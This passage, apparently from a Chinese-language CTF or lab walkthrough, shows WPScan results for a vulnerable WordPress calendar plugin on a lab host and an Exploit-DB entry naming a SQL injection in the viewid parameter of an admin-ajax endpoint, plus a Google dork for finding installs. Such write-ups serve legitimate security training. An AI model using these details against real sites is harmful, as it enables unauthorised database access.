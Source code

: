 ```bash
 |      - https://wpscan.com/vulnerability/3c5a5187-42b3-4f88-9b0e-4fdfa1c39e86
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24498
 |      - https://plugins.trac.wordpress.org/changeset/2557721/cp-multi-view-calendar
 |
 | [!] Title: Calendar Event Multi View < 1.4.07 - Unauthenticated Arbitrary Event Creation to Stored XSS
 |     Fixed in: 1.4.07
 |     References:
 |      - https://wpscan.com/vulnerability/95f92062-08ce-478a-a2bc-6d026adf657c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-2846
 |
 | [!] Title: Calendar Event Multi View < 1.4.07 - Unauthenticated Arbitrary Event Deletion
 |     Fixed in: 1.4.07
 |     Reference: https://wpscan.com/vulnerability/5f191d25-833b-4d8d-a4ff-d180a326dd82
 |
 | The version could not be determined.
```

查看`http://192.168.10.104/wordpress/wp-content/plugins/cp-multi-view-calendar/README.txt`，发现其版本很低，尝试搜索利用相关漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300868.png" alt="image-20250619083153163" style="zoom:50%;" />

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ searchsploit -m php/webapps/36243.txt
  Exploit: WordPress Plugin cp-multi-view-calendar 1.1.4 - SQL Injection
      URL: https://www.exploit-db.com/exploits/36243
     Path: /usr/share/exploitdb/exploits/php/webapps/36243.txt
    Codes: OSVDB-119277, OSVDB-119276, OSVDB-118336, OSVDB-118324
 Verified: True
File Type: ASCII text
Copied to: /home/kali/temp/Ginger/36243.txt

┌──(kali㉿kali)-[~/temp/Ginger]
└─$ cat 36243.txt 
# Exploit Title: WordPress: cp-multi-view-calendar.1.1.4  [SQL Injection
vulnerabilities]
# Date: 2015-02-28
# Google Dork: Index of /wordpress/wp-content/plugins/cp-multi-view-calendar
# Exploit Author: Joaquin Ramirez Martinez [ i0akiN SEC-LABORATORY ]
# Vendor Homepage: http://wordpress.dwbooster.com/
# Software Link:
https://downloads.wordpress.org/plugin/cp-multi-view-calendar.1.1.4.zip
# Version: 1.1.5
# Tested on: windows 7 ultimate + sqlmap 0.9. It's php aplication
# OWASP Top10: A1-Injection
# Mitigations: Upgrade to version 1.1.5

Greetz to Christian Uriel Mondragon Zarate

Video demo of unauthenticated user sqli explotation vulnerability :



###################################################################

ADMIN PAGE SQL INJECTION
-------------------------------------------------

http://localhost/wordpress/wp-admin/admin-ajax.php?action=ajax_add_calendar

sqlinjection in post parameter viewid

```